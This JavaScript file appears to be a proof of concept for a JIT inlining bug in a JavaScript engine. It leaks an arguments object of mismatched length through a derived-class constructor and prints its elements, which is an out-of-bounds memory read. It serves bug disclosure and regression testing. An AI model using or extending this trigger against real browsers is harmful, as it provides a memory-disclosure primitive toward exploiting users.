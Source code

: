
const kArgsLength = 0x101;

let buggy = null;
function inlineFunc() {
    if (arguments.length != kArgsLength) {
        buggy = arguments;
    }
}

class ClassForInine extends inlineFunc {
}

function sleep(ms) {
    let start = new Date();
    while (new Date() - start < ms);
}

function main() {
    let args = new Array(kArgsLength);
    args.fill(333 + 1);
    args = args.join(', ');

    let opt = new Function(`(() => {
        new ClassForInine(${args});
    })();`);

    for (let i = 0; i < 0x100000; i++) {
        opt();

        if (i === 0x3000)
            sleep(1000);

        if (buggy) {
            print('buggy.length: ' + buggy.length);
            break;
        }
    }

    for (let i = 0, n = buggy.length; i < n; i++) {
        print(buggy[i]);
    }
}

main();

